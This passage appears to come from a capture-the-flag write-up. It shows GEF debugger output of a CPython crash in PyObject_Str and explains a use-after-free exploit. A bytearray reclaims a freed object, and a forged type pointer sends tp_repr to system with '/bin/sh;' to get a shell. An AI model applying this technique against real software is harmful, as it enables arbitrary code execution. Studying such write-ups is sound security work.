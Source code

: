 ```
     0x5f81b6 <PyObject_Str+134> mov    edi, DWORD PTR [rbp+0x20]
     0x5f81b9 <PyObject_Str+137> mov    rsi, QWORD PTR [rbp+0x10]
     0x5f81bd <PyObject_Str+141> add    edi, 0x1
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "python3.9x", stopped 0x5f81a1 in PyObject_Str (), reason: SIGSEGV
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x5f81a1 → PyObject_Str(v=0x7f2166dccf00)
[#1] 0x65862f → PyFile_WriteObject(v=0x7f2166dccf00, f=<optimized out>, flags=<optimized out>)
[#2] 0x640777 → builtin_print(self=<optimized out>, args=0x1519a00, nargs=0x1, kwnames=<optimized out>)
[#3] 0x525c44 → cfunction_vectorcall_FASTCALL_KEYWORDS(func=0x7f2166ef74a0, args=0x1519a00, nargsf=<optimized out>, kwnames=<optimized out>)
[#4] 0x599267 → _PyObject_VectorcallTstate(kwnames=0x0, nargsf=<optimized out>, args=0x1519a00, callable=0x7f2166ef74a0, tstate=0x14bf300)
[#5] 0x599267 → PyObject_Vectorcall(kwnames=0x0, nargsf=<optimized out>, args=0x1519a00, callable=0x7f2166ef74a0)
[#6] 0x599267 → call_function(kwnames=0x0, oparg=<optimized out>, pp_stack=<synthetic pointer>, tstate=0x14bf300)
[#7] 0x599267 → _PyEval_EvalFrameDefault(tstate=<optimized out>, f=<optimized out>, throwflag=<optimized out>)
[#8] 0x59734e → _PyEval_EvalFrame(throwflag=0x0, f=0x1519890, tstate=0x14bf300)
[#9] 0x59734e → _PyEval_EvalCode(tstate=<optimized out>, _co=<optimized out>, globals=<optimized out>, locals=<optimized out>, args=<optimized out>, argcount=<optimized out>, kwnames=0x0, kwargs=0x0, kwcount=<optimized out>, kwstep=0x2, defs=0x0, defcount=<optimized out>, kwdefs=0x0, closure=0x0, name=0x0, qualname=0x0)
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

gef➤  telescope 0x7f2166dccf00
0x00007f2166dccf00│+0x0000: 0x0000000000000001	 ← $rdi, $r12
0x00007f2166dccf08│+0x0008: 0x0000000000000000
0x00007f2166dccf10│+0x0010: 0x0000000000000000
0x00007f2166dccf18│+0x0018: 0x0000000000000000
0x00007f2166dccf20│+0x0020: 0x0000000000000000
0x00007f2166dccf28│+0x0028: 0x0000000000000000
0x00007f2166dccf30│+0x0030: 0x0000000000000001
0x00007f2166dccf38│+0x0038: 0x0000000000958d20  →  0x0000000000000046 ("F"?)
0x00007f2166dccf40│+0x0040: 0x0000000000000002
0x00007f2166dccf48│+0x0048: 0xffffffffffffffff
gef➤  
```

We've basically got the perfect primitive! Our 40 byte `bytearray` allocation is allocated exactly at the old address of the `Tree`, which we still have a reference to through our `dangling_ref`. Note that the first byte is `1` because of the fact that `print` increments the reference count of the object.

Further exploitation is quite easy. We can overwrite the `PyObjectType` pointer of the `PyObject` to point to a buffer of arbitrary data. As a `PyObjectType` contains a bunch of function pointers, we should be able to easily get `rip` control. Even more fortunately, the (non-PIE) python executable links to `system`! Putting one and one together this shouldn't be too bad. We forge the `tp_repr` pointer to point to `system`, and set the reference count of the associated object to `"/bin/sh;"`.
